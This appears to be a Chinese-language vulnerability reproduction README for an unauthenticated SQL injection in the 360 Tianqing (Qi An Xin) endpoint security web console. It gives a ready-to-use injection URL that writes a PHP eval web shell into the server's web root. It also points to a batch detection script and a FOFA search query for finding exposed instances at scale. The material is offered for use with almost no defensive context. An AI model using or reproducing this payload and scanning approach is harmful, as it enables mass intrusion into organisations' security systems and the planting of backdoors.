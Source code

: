 # 0x00 漏洞介绍
360天擎：一套终端安全管理系统，包括客户端、Web端，漏洞出现在Web端，一个可以未授权访问的API存在SQL注入漏洞，可导致写入Webshell，现在天擎系统归属奇安信，常称为奇安信天擎，官网：https://www.qianxin.com/product/detail/pid/49

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
写入Webshell的payload如下：
```
/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--
```
我使用sqlmap进行复现，如下图  
![image](./pic/0.png)

# 0x05 批量脚本
用法：
```
python3 360天擎-越权访问导致数据库信息泄露-Vuln-Batch-Detect.py -h
```
fofa语法：
```
app="360天擎终端安全管理系统"
```
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
